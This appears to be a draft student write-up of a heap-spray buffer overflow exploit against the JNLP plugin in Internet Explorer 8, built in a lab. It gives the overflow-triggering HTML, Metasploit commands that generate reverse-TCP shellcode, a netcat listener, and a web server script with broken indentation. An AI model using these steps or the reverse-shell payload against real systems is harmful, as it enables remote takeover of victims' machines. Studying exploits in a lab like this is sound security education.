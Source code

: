 # Exploiting a Buffer Overflow Vulnerability in the JNLP plugin within Internet Explorer 8 with using the Heap Spraying Technique

**This is still a draft**

JNLP (Java Network Launch Protocol) enables an application to be launched on a client desktop using resources that are hosted on a remote server. A specific version of JNLP for IE8 is vulnerable to a stack-based buffer overflow: when the plugin is invoked with a *launchjnlp* parameter, it will copy the value of the *docbase* parameter to a stack buffer using `sprintf`, but fails to check the length of the value. 

The vulnerability can be triggered by the following:
```html
<object type='application/x-java-applet'>
<param name='launchjnlp' value='1'>
<param name='docbase' value='AAAAAAAA....AAAAAA'>
</object>
```

## Goal
Input a sufficiently long string in the docbase value such that the register $eip gets ovewritten with an address known to contain our NOP sled and shellcode. Said shellcode establishes a reverse TCP connection to another machine.

## How it's done

To demonstrate this vulnerability, a simple web server is set up to listen on port 8080. This web server shows the contents of a specific directory in which the html file (containing the exploit) is located. The html file is clicked from the client and nothing appears to happen, but the truth is that the heap is sprayed with a shellcode! It is not until the client clicks on *Click Me* that at least one the shellcodes in the heap gets executed. This shellcode consists of several NOP operations and a reversed TCP connection to a chosen IP and port. The port used is *6666*, and to simplifly the assignment's grading, the chosen IP is 127.0.0.1, which means that the command prompt will be obtained in the client instead of in the attacker's machine (or Kali, in this case).

## Specifics

1. Two machines are used to demonstrate this vulnerability. A Windows 7 VM (with DEP disabled) acts as the client, and a Kali Linux VM acts as the web server.

2. A Windows shellcode is generated with Metasploit, which is a tool already installed in Kali Linux. The instructions in this shellcode create a reverse TCP connection from said Windows machine to a chosen IP and port. In other words, these instructions would spawn the victim's command prompt in the attacker's machine; but for practicality, the IP chosen as the attacker's IP does not belong to the attacker and it is the victim's machine, 127.0.0.1. Using the attacker's IP will make the demo realistic, but it will not make it easy to the grader of this assignment.

The shellcode is generated as follows:

`msfconsole`

`use payload/windows/shell_reverse_tcp`

`set LHOST 127.0.0.1`

`set LPORT 6666`

`generate -t js_le`

In the last command, **js_le** was used because a JavaScript shellcode is needed and the Windows machine that is targeted uses Little Endian (le).

3. To accept this reverse TCP connection in Windows, the following netcat command is needed:

`nc -l -p 6666`

**-l** specifies that nc should listen for an incoming connection, and **-p** specifies the source port.

4. Windows debugger, WinDBG, is helpful to visualize the stack and heap contents and gather information for the exploit.

5. The script that sets up a web server is provided, and it looks like this:

```python
#!/usr/bin/python
#
# Python Web Server
# Serves only static files
#
# by Saumil Shah

import sys
import BaseHTTPServer
from SimpleHTTPServer import SimpleHTTPRequestHandler

port = 8080

class HandlerClass(SimpleHTTPRequestHandler):
        # Disable DNS lookups
        def address_string(self):
                    return str(self.client_address[0])
                    ServerClass = BaseHTTPServer.HTTPServer
                    Protocol = "HTTP/1.0"
                    server_address = ('0.0.0.0', port)
                    HandlerClass.protocol_version = Protocol
                    httpd = ServerClass(server_address, HandlerClass)
    try:
        sa = httpd.socket.getsockname()
        print "Serving HTTP on", sa[0], "port", sa[1], "..."
        httpd.serve_forever()
    except KeyboardInterrupt:
        print 'Shutting down the web server'
        httpd.socket.close()
```

6. To use the heap spraying technique, a string that follows the pattern "NOP Sled + Shellcode" is created in JavaScript. This string is successfully sprayed in the heap to occupy hundreds of megabytes. 
